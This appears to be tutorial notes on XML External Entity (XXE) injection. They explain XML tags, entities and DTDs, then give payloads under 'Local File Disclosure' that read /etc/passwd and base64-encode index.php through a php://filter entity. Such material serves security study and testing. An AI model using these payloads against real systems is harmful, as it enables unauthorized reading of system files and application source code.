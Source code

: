 # XML External Entity (XXE) Injection

XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions.

**XML**
Extensible Markup Language (XML) is a common markup language (similar to HTML and SGML) designed for flexible transfer and storage of data and documents in various types of applications. XML is not focused on displaying data but mostly on storing documents' data and representing data structures. XML documents are formed of element trees, where each element is essentially denoted by a tag, and the first element is called the root element, while other elements are child elements.

XML Key Definitions

| Key         | Definition                                                                                                         | Example                                  |
|-------------|--------------------------------------------------------------------------------------------------------------------|------------------------------------------|
| Tag         | The keys of an XML document, usually wrapped with (`</>`) characters.                                              | `<date>`                                 |
| Entity      | XML variables, usually wrapped with (`&` `;`) characters.                                                          | `&lt;`                                   |
| Element     | The root element or any of its child elements, with its value stored between a start-tag and an end-tag.           | `<date>01-01-2022</date>`                 |
| Attribute   | Optional specifications for any element stored in the tags, which may be used by the XML parser.                   | `version="1.0"/encoding="UTF-8"`          |
| Declaration | Usually the first line of an XML document, defining the XML version and encoding to use when parsing it.           | `<?xml version="1.0" encoding="UTF-8"?>` |


**XML DTD**
XML Document Type Definition (DTD) allows the validation of an XML document against a pre-defined document structure. The pre-defined document structure can be defined in the document itself or in an external file.

## Local File Disclosure

We can test whether the application is vulnerable by attempting to inject a new entity.
````
<!DOCTYPE email [
  <!ENTITY vuln "XXE Injection">
]>

&vuln;
````

**Reading Sensitive Files**
````
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>

<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
````

